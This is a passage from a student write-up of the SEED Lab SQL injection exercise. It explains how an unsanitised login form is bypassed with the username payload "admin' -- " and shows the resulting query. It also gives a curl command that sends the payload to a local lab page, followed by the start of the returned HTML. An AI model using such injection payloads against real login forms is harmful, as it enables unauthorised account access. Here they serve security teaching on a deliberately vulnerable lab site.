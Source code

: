 From the two code excerpts above we can find 2 vulnerabilities:

1. There is no kind of cleaning made to the input of the form fields.
2. During the validation, only the username is used, not the password.

Seeing as there is no validation of the input, we can insert anything!

To login as an admin, we can input the following in the `username` field: "admin' -- " without the quotes, and anything into the password. 

By doing this, we are sending the username as `admin` but commenting the `password` part using `-- '` (after the SQL comment there must be a space). this string will be replaced in the original query, so the query becomes:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'admin' -- ' and Password='$hashed_pwd'
```

And we can access the admin profile.

### Task 2.2

For this task, we need to do the same as in Task 2.1, but without using a webpage. So the solution is to use `curl` and do a request to the login webpage, passing as parameters the contents of the form fields. 

A possible problem would be that we would need to surround the URL with single quotes, making it necessary to encode the single codes inside the URL. But since curl interprets the first argument as the URL without codes, we didn't face this problem, and the task was easy to conclude. By running the following command:

```bash
curl [http://localhost/unsafe_home.php?username=admin'+--+'&Password=](http://localhost/unsafe_home.php?username=admin%27+--+%27&Password=)
```

We got the expected result, the HTML page with the admin information:

```html
<!--
SEED Lab: SQL Injection Education Web plateform
Author: Kailiang Ying
Email: kying@syr.edu
-->

<!--
SEED Lab: SQL Injection Education Web plateform
Enhancement Version 1
Date: 12th April 2018
Developer: Kuber Kohli

Update: Implemented the new bootsrap design. Implemented a new Navbar at the top with two menu options for Home and edit profile, with a button to
logout. The profile details fetched will be displayed using the table class of bootstrap with a dark table head theme.

NOTE: please note that the navbar items should appear only for users and the page with error login message should not have any of these items at
all. Therefore the navbar tag starts before the php tag but it end within the php script adding items as required.
-->

<!DOCTYPE html>
<html lang="en">
<head>
  <!-- Required meta tags -->
```